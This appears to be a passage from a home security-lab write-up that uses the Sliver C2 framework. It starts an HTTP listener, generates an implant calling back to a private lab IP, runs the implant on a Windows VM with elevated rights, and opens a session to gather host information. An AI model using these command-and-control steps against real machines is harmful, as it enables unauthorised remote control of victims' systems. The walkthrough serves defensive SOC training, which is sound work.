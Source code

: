 We'll start the HTTP listener in case it's not already running.
```bash
http
```
<br>![Pasted image 20240612145837](https://github.com/tylerthompson1/SOC/assets/53204601/de9d2341-a383-4ee6-a9ad-4b4086c948bd)<br>

Our Sliver C2 is now ready to go!

## Generate C2 Implant

In the Sliver client terminal, we will generate our C2 implant and drop it into the Download directory of the Windows system. We're using the IP address of the Ubuntu subsystem as our C2 IP, since that is where the Sliver server is running.

```bash
generate --http 172.25.114.254 --save /mnt/c/Users/sywtbsa/Downloads/
```

Then we'll confirm that the Sliver Server has stored the implant using:
```bash
implants
```
<br>![Pasted image 20240612150532](https://github.com/tylerthompson1/SOC/assets/53204601/5cfb226d-81e3-4bf8-83ba-7268b39c37e4)<br>

It's important to note where our implant is saved to and what our payload name is.
We can verify the HTTP listener job is running by using:
```bash
jobs
```
<br>![Pasted image 20240612150655](https://github.com/tylerthompson1/SOC/assets/53204601/a2eed876-2731-47d5-9f5e-982f81fe03ed)<br>

## Command & Control

Now that the payload is on the Windows VM and the HTTP listener is running, we can execute the payload and establish our C2 session.

1. Launch an Elevated Command Prompt
2. Run the following command, making sure to use our actual payload name.
   ```bash
   C:\Users\sywtbsa\Downloads\[your_C2-implant.exe]
  
3. We can see our Sliver Client establish a connection
   <br>![Pasted image 20240612151051](https://github.com/tylerthompson1/SOC/assets/53204601/23ee2114-0f8a-40bd-a8dd-d14daf49443a)<br>
4. Which can be further verified by using ```sessions``` in the Sliver Client
  <br> ![Pasted image 20240612151200](https://github.com/tylerthompson1/SOC/assets/53204601/2287c053-af18-4798-ad7b-a9e82a7c55a1)<br>
5. In order to interact with the session, we will use
   ```bash
   use [session_id]

<br>![Pasted image 20240612151334](https://github.com/tylerthompson1/SOC/assets/53204601/34d6e4d0-6d2b-425a-b74c-528b1cc1186b)<br>

We are now directly interacting with the C2 session on the Windows VM. We're going to do some basic info gathering to learn more about our victim host.

```bash
info
```
Get basic information about the session.
<br>![Pasted image 20240612151604](https://github.com/tylerthompson1/SOC/assets/53204601/d86e98a5-9f67-4b89-9b9c-7bfb2f594207)<br>
